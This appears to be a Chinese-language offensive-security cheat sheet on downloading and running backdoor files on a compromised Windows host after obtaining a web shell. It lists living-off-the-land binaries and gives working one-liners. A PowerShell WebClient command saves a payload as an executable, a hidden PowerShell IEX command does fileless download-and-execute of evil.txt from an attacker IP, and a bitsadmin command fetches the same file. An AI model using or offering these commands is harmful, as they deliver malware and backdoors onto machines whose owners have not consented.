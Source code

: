 # Windows命令行下载文件方法


当我们通过Web方式获取了一个Shell，而目标主机是Windows，我们下面后门文件到目标主机**一般有两种方式：**

1. 远程下载文件到本地，然后再执行；

2. 远程下载执行，执行过程没有二进制文件落地（这种方式已然成为后门文件下载执行的首要方式）



**常见的下载方式**

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32
- MSXSL.EXE
- pubprn.vbs





### 1.Powershell

远程下载文件保存在本地：

```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.0.115/payload.txt','payload.exe')
```



远程执行命令：

```bash
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```



### 2.Bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

```bash
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt D:\1.txt
```
